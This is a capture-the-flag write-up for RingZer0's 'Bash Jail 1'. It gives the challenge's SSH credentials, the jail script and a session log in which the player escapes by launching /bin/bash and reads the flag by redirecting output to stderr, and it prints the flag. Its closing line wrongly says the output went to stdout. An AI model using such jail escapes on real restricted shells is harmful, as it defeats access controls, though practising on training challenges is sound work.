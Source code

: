# Bash Jail 1

__PROBLEM__

 User: level1
Password: leve1

__SOLTUION__

```bash
➜ ssh level1@challenges.ringzer0team.com -p 10218
level1@challenges.ringzer0team.com's password:
Permission denied, please try again.
level1@challenges.ringzer0team.com's password:

RingZer0 Team Online CTF

BASH Jail Level 1:
Current user is uid=1000(level1) gid=1000(level1) groups=1000(level1)

Flag is located at /home/level1/flag.txt

Challenge bash code:
-----------------------------

while :
do
        echo "Your input:"
        read input
        output=`$input`
done

-----------------------------
Your input:
cat /home/level1/flag,txt
cat: /home/level1/flag,txt: No such file or directory
Your input:
cat /home/level1/flag.txt
Your input:
ls
Your input:
/bin/bash
level1@lxc17-bash-jail:~$ ls
level1@lxc17-bash-jail:~$ ls 1>2
bash: 2: Permission denied
level1@lxc17-bash-jail:~$ ls 1>&2
flag.txt  prompt.sh
level1@lxc17-bash-jail:~$ cat flag.txt
level1@lxc17-bash-jail:~$ cat flag.txt 1>&2
FLAG-U96l4k6m72a051GgE5EN0rA85499172K
level1@lxc17-bash-jail:~$
```

Since we were not getting any feedback from normal commands. we tried `/bin/bash` and after that we just redirect all the output to `stdout`

FLAG - `FLAG-U96l4k6m72a051GgE5EN0rA85499172K`
